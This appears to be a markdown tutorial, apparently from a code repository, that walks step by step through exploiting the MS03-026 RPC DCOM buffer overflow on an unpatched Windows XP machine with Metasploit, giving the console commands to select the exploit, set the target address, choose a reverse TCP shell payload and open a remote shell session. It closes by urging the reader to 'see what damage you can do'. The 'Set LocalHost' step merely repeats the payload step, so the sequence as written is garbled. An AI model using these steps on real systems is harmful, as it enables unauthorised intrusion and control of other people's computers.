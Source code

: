 # Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo -E service postgresql start && sudo -E msfdb init && sudo -E msfconsole;`

Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

![Image of the mfs terminal](images/634704378236167812.jpg)

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's `10.0.0.125`. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.125`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Set LocalHost
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
Type the command sessions –i 1 to open a command shell on the XP system that will appear on your Metasploit console.

`sessions –i 1`

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 
